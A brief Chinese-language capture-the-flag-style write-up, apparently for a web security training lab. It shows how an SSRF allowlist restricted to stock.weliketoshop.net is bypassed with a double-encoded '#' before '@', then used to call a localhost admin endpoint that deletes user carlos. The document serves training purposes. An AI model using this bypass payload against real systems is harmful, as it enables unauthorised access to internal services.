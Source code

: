 ssrf访问：http://localhost

报错并，提示只能访问stock.weliketoshop.net



此时尝试绕过该白名单限制：

最终看了wp才发现绕过方式：

```javascript
http://localhost%2523@stock.weliketoshop.net
```

@前面的url编码时二次编码的#



访问：

```javascript
http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

